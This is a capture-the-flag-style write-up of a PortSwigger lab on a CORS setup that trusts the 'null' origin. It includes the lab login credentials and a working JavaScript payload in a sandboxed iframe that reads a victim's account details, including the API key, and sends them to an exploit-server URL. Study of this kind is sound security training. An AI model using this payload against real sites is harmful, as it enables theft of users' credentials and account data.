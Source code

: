 # [Lab: CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

## Lab

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

header of the request's response to `/accountDetails` contains `Access-Control-Allow-Credentials`.

- request from exploit-server, the `Access-Control-Allow-Origin` is not reflected:

## Solutions

craft a response at exploit-server:

- body:

  ```javascript
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://id.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
  location='https://exploit-id.exploit-server.net/log?key='+this.responseText;
  };
  </script>"></iframe>
  ```

use iframe sandbox to bypass whitelist null.

